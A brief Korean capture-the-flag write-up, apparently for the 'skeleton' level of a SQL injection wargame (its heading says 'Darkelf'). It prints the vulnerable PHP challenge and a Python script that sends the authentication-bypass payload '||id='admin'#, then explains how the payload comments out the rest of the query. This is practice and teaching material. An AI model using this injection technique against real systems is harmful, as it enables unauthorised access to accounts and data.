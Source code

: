 
## Darkelf Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
$query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("skeleton");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/skeleton_a857a5ab24431d6fb4a00577dac0f39c.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['pw'] = "'||id='admin'#"

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] SKELETON Clear")
```
id가 admin이어야 하는데 guest로 되어 있다.  
pw에 `'||id='admin'#`을 넣어주어 id를 admin으로 만들고 그 뒤의 조건은 주석처리 해주면 된다.  
``` php
select id from prob_skeleton where id='guest' and pw=''||id='admin'#' and 1=0
```
쿼리문은 위와 같이 되고 문제가 해결된다.